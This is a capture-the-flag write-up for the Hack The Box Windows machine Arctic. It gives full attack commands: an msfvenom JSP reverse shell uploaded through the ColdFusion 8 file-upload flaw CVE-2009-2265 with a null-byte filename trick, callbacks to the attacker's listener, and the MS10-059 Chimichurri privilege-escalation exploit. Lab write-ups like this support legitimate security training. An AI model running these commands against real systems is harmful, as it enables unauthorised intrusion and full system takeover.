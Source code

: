 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **Root Method**: MS10-059 exploit via Chimichurri

https://www.youtube.com/watch?v=Gfus5di2EF4

---

## 🔍 Reconnaissance

### 🔎 Full TCP Scan
```bash
nmap -p- --min-rate 10000 -oA nmap-alltcp 10.10.10.11
```

### 🔎 Version & Script Scan
```bash
nmap -sC -sV -p 135,8500,49154 -oA nmap-service 10.10.10.11
```

---

## 🌐 [Web Enumeration](HTTP.md)

### 🌐 Port 8500 Analysis
```bash
curl http://10.10.10.11:8500/
# or
nc 10.10.10.11 8500
```

Revealed ColdFusion 8 interface:
- `/CFIDE/administrator/enter.cfm` → Login panel
- `/userfiles/file/` → Web root accessible

---

## ⚔️ Exploitation (Initial Foothold)

### Method 1: CVE-2009-2265 – Unauthenticated File Upload

#### 🧬 Generate JSP Reverse Shell
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f raw > shell.jsp
```

#### 🗂 Upload Shell via ColdFusion vuln
```bash
cp shell.jsp shell.txt
curl -X POST -F "newfile=@shell.txt;type=application/x-java-archive;filename=shell.txt" \
"http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/shell.jsp%00"
```

#### 🔁 Trigger Reverse Shell
```bash
curl http://10.10.10.11:8500/userfiles/file/shell.jsp
```

### 🧲 Netcat Listener
```bash
rlwrap nc -nvlp 443
```

---

## 🧪 Privilege Escalation

### 📋 Check System Info
```bash
systeminfo
```

**No hotfixes installed** — prime for kernel exploits.

### 🔎 Enumerate with Windows Exploit Suggester
```bash
# On Kali
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
cd Windows-Exploit-Suggester
python3 windows-exploit-suggester.py --update

# Save output from systeminfo
python3 windows-exploit-suggester.py --database 2020-XX-XX-mssb.xls --systeminfo sysinfo.txt
```

**Selected**: [MS10-059.exe](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

### 📤 Transfer Exploit Binary
```bash


# On Arctic shell
net use \\10.10.14.14\share
copy \\10.10.14.14\share\Chimichurri.exe .
```

### 💣 Execute Exploit
```bash
Chimichurri.exe 10.10.14.14 443
```

### 🧲 Netcat Listener
```bash
rlwrap nc -nvlp 443
```

---

## 🏁 Flags

### 🧑‍💻 User
```bash
type C:\Users\tolis\Desktop\user.txt
```

### 👑 Root
```bash
type C:\Users\Administrator\Desktop\root.txt
```